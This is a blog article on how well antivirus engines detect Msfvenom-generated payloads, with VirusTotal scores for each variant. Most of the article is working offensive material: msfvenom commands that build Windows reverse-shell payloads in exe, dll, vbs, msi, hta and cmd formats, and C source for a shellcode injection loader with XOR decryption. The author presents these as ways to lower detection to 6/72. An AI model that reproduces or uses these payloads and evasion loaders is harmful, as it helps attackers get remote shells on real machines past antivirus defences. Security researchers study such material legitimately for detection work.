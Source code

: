 ```yaml
---
title: Msfvenom detection rate in 2024
createdAt: "2024-06-09"
---
```


In this article, I would like to do a little research on how well payload generated by Msfvenom is detected. Of course, we are mainly talking about static malware detection. Many people believe that payloads generated by Msfvenom are nowadays unusable in general. The issue is not so simple.

> All compiled / generated files were checked using VirusTotal. This is where the level of detection comes from.

A brief overview of the Msfvenom parameters which can affect the detection:

- `-p <payload>` - shellcode (this thing that gives us a reverse shell);
- `-e <encoding>` - encoding of the shellcode; `--iterations` - how many times the shellcode should be encoded;
- `--encrypt <alg>` - encryption of the shellcode; `--encrypt-key` - encryption key;
- `f <format>` - output format. There are essentially two possibilities: file format (executable) or payload format (a string ready to use in your own malware code).

## Default executables

Let's see how well the default executable formats generated by Msfvenom are detected.

### EXE

Pure:

```bash
# Detection: 58/73
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o file.exe
```

Encoding:

```bash
# Detection: 54/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai -f exe -o file.exe

# Detection: 55/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/bloxor -f exe -o file.exe

# Detection: 53/73
msfvenom -p windows/x64/shell_reverse_tcp -e x64/zutto_dekiru -f exe -o file.exe
```

Encryption:

```bash
# Detection: 56/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --encrypt aes256 --encrypt-key print3m -f exe -o file.exe

# Detection: 53/73 
msfvenom -p windows/x64/shell_reverse_tcp -e x86/bloxor --encrypt rc4 --encrypt-key print3m -f exe -o file.exe

# Detection: 54/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --encrypt xor --encrypt-key print3m -f exe -o file.exe
```

Everything together:

```bash
# Detection: 56/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f exe -o file.exe
```

**Conclusion**: Encryption and encoding actually don't matter while using `-f exe`. Not only the payload but the execution itself (template) is very well detected. The default execution is always the same, it's the easiest part to detect being an antivirus software. By the way, this is not true only for `exe` files. Below I have presented other formats (also with default templates) with similar results. The conclusion is simple: **never use ready-made executable formats and default templates**.

### DLL

```bash
# Detection: 41/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f dll -o file.dll
```

### VBS

```bash
# Detection: 35/64
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f vbs -o file.vbs
```

### MSI

```bash
# Detection: 40/64
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f msi -o file.msi
```

### HTA

```bash
# Detection: 33/61
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f hta-psh -o file.hta
```

### CMD

```bash
# Detection: 16/64 
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 2 --smallest --encrypt rc4 --encrypt-key print3m -f psh-cmd -o file.cmd
```

## Custom executable

Using a custom code, we control how the shellcode is executed, which is the most sensitive point of the finished files generated by Msfvenom. We still use the shellcode generated by Msfvenom and look at how well the compiled file is detected.

The simplest local thread injection:

```c
#include <Windows.h>
#include <stdio.h>
#include <stdint.h>

uint8_t shellcode[] = "PAYLOAD:";

int main() {
    // Allocate memory
    void* mem = VirtualAlloc(NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if (mem == NULL) {
        printf("[!] VirtualAlloc error: %d \n", GetLastError());
        return -1;
    }

    // Copy the shellcode to the allocated memory
    memcpy(mem, shellcode, sizeof(shellcode));

    // Set original shellcode to 0
    memset(shellcode, 0x00, sizeof(shellcode));

    // Change allocated memory permissions
    DWORD old_protect = NULL;
    if (!VirtualProtect(mem, sizeof(shellcode), PAGE_EXECUTE, &old_protect)) {
        printf("[!] VirtualProtect error: %d \n", GetLastError());
        return -1;
    }

    // Create a thread
    HANDLE thread = CreateThread(NULL, NULL, mem, NULL, NULL, NULL);
    if (thread == NULL) {
        printf("[!] CreateThread error: %d \n", GetLastError());
        return -1;
    }

    WaitForSingleObject(thread, INFINITE);

    // Exit
    getchar();
    return 0;
}
```

No anti-AV measures, just a custom template. Immediately, we see a huge decrease in detection by 24 antiviruses. For the exact same shellcode (without any encryption or encoding) in the default template the detection was 58/73. And we didn't even try very hard to hide anything.

```bash
# Detection: 34/72
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.53 LPORT=8888 -f c 
```

With simple XOR encryption in the template itself. Shellcode is decrypted by C code before injection and execution.

```c
uint8_t shellcode[] = "PAYLOAD:";
uint8_t xor_key[] = {'p', 'r', 'i', 'n', 't', '3', 'm'};

// XOR encryption / decryption
void xor(uint8_t shellcode[], size_t shellcode_sz, uint8_t key[], size_t key_sz) {
    for (size_t i = 0; i < shellcode_sz; i++) {
        // Get byte of key
        uint8_t byte_key = key[i % key_sz]; 

        // Calculate value
        shellcode[i] = shellcode[i] ^ byte_key;
    }
}
```

XOR encryption is built-in into Msfvenom. As we can see with a simple xor the detection is even lower.

```bash
# Detection: 27/72
msfvenom --encrypt xor --encrypt-key print3m -p windows/x64/shell_reverse_tcp  LHOST=192.168.1.53 LPORT=8888 -f c
```

When uploading this malware to Virus Total, some antiviruses write out that they supposedly found a meterpreter payload, but this is not true. Detection rate is still pretty high because our shellcode injection technique is very simple, it doesn't use any advanced techniques, and it's known to many antiviruses. As you can see, for most of them it's still undetectable but e.g. GData, Kaspersky or Windows Defender easily detects the local thread injection technique.

However, it is enough to use a slightly more complicated shellcode injection technique and the **static detection level drops to 6/72**. I used a simple remote process shellcode injection technique ([example source code](https://github.com/Print3M/malware-dev/blob/main/shellcode_process_injection.c)) and  the result is very satisfactory.

## Conclusion

Msfvenom's generated malware files are detected without the slightest difficulty by any serious antivirus software. Encryption, encoding and different file formats generally do not help at all. However, using shellcode generated by Msfvenom in your own code (custom template) is still possible. Using a simple XOR, we are able to hide Msfvenom shellcode and the level of detection then depends mostly on how the payload is executed.

~ Print3M
